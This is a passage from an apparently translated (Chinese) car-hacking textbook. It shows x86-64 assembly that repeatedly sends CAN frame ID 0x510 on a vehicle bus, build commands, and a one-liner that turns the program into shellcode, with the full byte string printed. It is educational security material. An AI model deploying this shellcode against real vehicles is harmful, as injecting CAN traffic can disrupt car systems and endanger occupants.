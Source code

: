 ```
  mov rdx, 16                ; sizeof(addr)
  syscall
  sub rsp, 16                ; sizeof can_frame
  mov word [rsp], 0x510      ; frame.can_id = 0x510;

  mov byte [rsp+4], 8        ;  frame.can_dlc = 8;

  mov byte [rsp+9], 0xFF     ;  frame.data[1] = 0xFF;
                             ; while(1)
loop:
                             ; write(s, &frame, sizeof(struct can_frame));
  push 1                     ; write from unistd_64.h
  pop rax
  mov rdi, r8                ; s / File descriptor
  mov rsi, rsp               ; &frame
  mov rdx, 16                ; sizeof can_frame
  syscall
                             ; usleep(500000);
  push 35                    ; nanosleep from unistd_64.h
  pop rax
  sub rsp, 16
  xor rsi, rsi
  mov [rsp], rsi             ; tv_sec
  mov dword [rsp+8], 500000  ; tv_nsec
  mov rdi, rsp
  syscall
  add rsp, 16
  jmp loop
```

*清单 11-2：在 64 位汇编中发送 CAN ID 0x510 数据包*

清单 11-2 中的代码与我们在 清单 11-1 中编写的 C 代码完全相同，只不过现在是用 64 位汇编语言编写的。

**注意**

*我已经在代码中添加了注释，展示了原始 C 代码的每一行与相应汇编代码块之间的关系。*

要编译和链接程序使其成为可执行文件，可以使用 `nasm` 和 `ld`，如下面所示：

```
$ nasm -f elf64 -o temp_shell2.o temp_shell.S
$ ld -o temp_shell2 temp_shell2.o
$ ls -l temp_shell2
-rwxrwxr-x 1 craig craig ➊1008 Jan  6 11:32 temp_shell2
```

目标头部的大小现在显示程序大约有 1008 字节 ➊，即超过 1KB，比编译后的 C 程序小得多。一旦我们去除链接步骤（`ld`）引入的 ELF 头部，代码将会更小。

#### ***将汇编代码转换为 Shellcode***

现在你的程序大小更加合适，你可以使用一行 Bash 命令将目标文件转换为 shellcode，直接在命令行中完成，如 清单 11-3 所示。

```
$ for i in $(objdump -d temp_shell2.o -M intel |grep "^ " |cut -f2); do echo
-n '\x'$i; done;echo
\x6a\x29\x58\x6a\x1d\x5f\x6a\x03\x5e\x6a\x01\x5a\x0f\x05\x49\x89\xc0\x48\x83\
xec\x28\x4d\x31\xc9\x49\xb9\x76\x63\x61\x6e\x30\x00\x00\x00\x41\x51\x8f\x04\
x24\x6a\x10\x58\x4c\x89\xc7\x68\x33\x89\x00\x00\x5e\x48\x89\xe2\x0f\x05\x4d\
x31\xc9\x4c\x8b\x4c\x24\x10\x48\x83\xec\x10\x66\xc7\x04\x24\x1d\x00\x4c\x89\
x4c\x24\x04\x6a\x31\x58\x4c\x89\xc7\x48\x89\xe6\xba\x10\x00\x00\x00\x0f\x05\
x48\x83\xec\x10\x66\xc7\x04\x24\x10\x05\xc6\x44\x24\x04\x08\xc6\x44\x24\x09\
xff\x6a\x01\x58\x4c\x89\xc7\x48\x89\xe6\xba\x10\x00\x00\x00\x0f\x05\x6a\x23\
x58\x48\x83\xec\x10\x48\x31\xf6\x48\x89\x34\x24\xc7\x44\x24\x08\x20\xa1\x07\
x00\x48\x89\xe7\x0f\x05\x48\x83\xc4\x10\xeb\xcf
```
